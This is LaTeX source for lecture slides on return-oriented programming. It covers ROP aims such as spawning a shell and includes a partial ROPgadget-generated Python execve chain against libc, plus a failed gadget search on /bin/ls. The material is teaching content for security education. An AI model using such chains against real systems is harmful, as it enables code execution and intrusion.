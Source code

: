 
\begin{frame}{common, reusable ROP sequences}
    \begin{itemize}
        \item most common idea: run a shell (command prompt)
            \begin{itemize}
            \item same thing `shellcode is named after'
            \item \texttt{ROPchain --binary example --ropchain} tries to do this
            \end{itemize}
        \item another possibilities: make memory executable + jump
            \begin{itemize}
            \item make `normal' shellcode work
            \end{itemize}
        \item probably more ideas
        \vspace{.5cm}
        \item if finding one of these in popular library\ldots
        \item can reuse across a lot of applications
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=ropchainex1]{ROPgadget --ropchain (works)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 \
             --offset 0x10000000 --ropchain
...
        #!/usr/bin/env python
        # execve generated by ROPgadget

        from struct import pack

        # Padding goes here
        p = b''
        p += pack('<Q', 0x00000000101056fd) # pop rdx ; pop rcx ; pop rbx ; ret
        p += pack('<Q', 0x00000000101eb1a0) # @ .data
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x000000001004a550) # pop rax ; ret
        p += '/bin//sh'
        p += pack('<Q', 0x00000000100374b0) # mov qword ptr [rdx], rax ; ret
...
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=ropchainex]{ROPgadget --ropchain (does not work?)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /bin/ls --ropchain
...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x7694 mov byte ptr [rax], 0xa ; pop rbx ; pop rbp ; pop r12 ; ret
        [-] Can't find the 'pop rax' gadget. Try with another 'mov [reg], reg'

        [-] Can't find the 'mov qword ptr [r64], r64' gadget
...
\end{lstlisting}
\end{frame}
